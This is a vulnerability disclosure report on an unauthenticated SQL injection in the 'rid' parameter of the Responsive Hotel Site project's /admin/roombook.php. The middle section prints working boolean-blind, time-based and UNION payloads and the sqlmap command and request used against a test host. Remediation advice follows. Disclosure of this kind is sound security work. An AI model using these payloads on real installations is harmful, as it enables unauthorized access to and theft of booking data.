# Responsive Hotel Site V1.0 /admin/roombook.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- AmengSec

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/roombook.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "rid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/roombook.php" file. This vulnerability stems from insufficient user input validation of the 'rid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- UNION query

## Vulnerability location:

- 'rid' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://10.151.169.235:8833/admin/roombook.php?rid=1' AND 4391=(SELECT (CASE WHEN (4391=4391) THEN 4391 ELSE (SELECT 7058 UNION SELECT 5460) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.169.235:8833/admin/roombook.php?rid=1' AND (SELECT 9707 FROM (SELECT(SLEEP(5)))TNCH)-- sNNh
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: http://10.151.169.235:8833/admin/roombook.php?rid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170767a71,0x476364587a70517a78634158654e66786d77496d547063744f4f72434f4d77555350574d686e7671,0x7162707671),NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,[QUERY],NULL-- -
```

![image-20251011192915499](assets/image-20251011192915499.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/roombook.php?rid=1* HTTP/1.1
Host: 10.151.169.235:8833
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/reservation.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
```

# Attack results

![image-20251011193001455](assets/image-20251011193001455.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.